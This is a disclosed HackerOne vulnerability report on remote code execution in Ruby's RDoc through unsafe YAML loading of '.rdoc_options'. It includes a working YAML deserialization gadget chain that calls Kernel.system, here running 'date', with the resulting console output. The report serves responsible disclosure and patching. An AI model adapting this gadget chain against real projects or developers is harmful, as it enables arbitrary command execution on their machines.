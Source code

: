 # RCE by parsing `.rdoc_options` in RDoc

## Report Details
- **Report ID**: 1187477
- **URL**: https://hackerone.com/reports/1187477
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2021-05-07T04:58:55.067Z
- **Disclosed**: 2024-07-03T00:01:01.915Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
When parsing `.rdoc_options` used for configuration in RDoc as a YAML file, RCE is possible from Object injection because there are no restrictions on the classes that can be restored.

https://github.com/ruby/rdoc/blob/v6.3.0/lib/rdoc/rdoc.rb#L165

```ruby
  def load_options
    options_file = File.expand_path '.rdoc_options'
    return RDoc::Options.new unless File.exist? options_file

    RDoc.load_yaml

    begin
      options = YAML.load_file '.rdoc_options'
    rescue Psych::SyntaxError
    end
```

### PoC

```
$ rdoc -v
6.3.1
```

Create `.rdoc_options` file. The yaml attack code is based on this article [Universal RCE with Ruby YAML.load](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/), https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: date
         method_id: :resolve
```

```
$ rdoc
sh: reading: command not found
2021年 5月 7日 金曜日 13時34分42秒 JST
uh-oh! RDoc had a problem:
no implicit conversion of nil into String
```

Kernel.system is called and `date` is executed.

## Impact

RCE is possible when the `rdoc` command is executed for a repository received from the external.

I also tried building the gem with the `.rdoc_options` file.
When running with `gem rdoc`, the file `.rdoc_options` doesn't seem to be read and seems safe.
Therefore, it seems that the environment where RCE is actually possible is limited.

## Attachments
No attachments
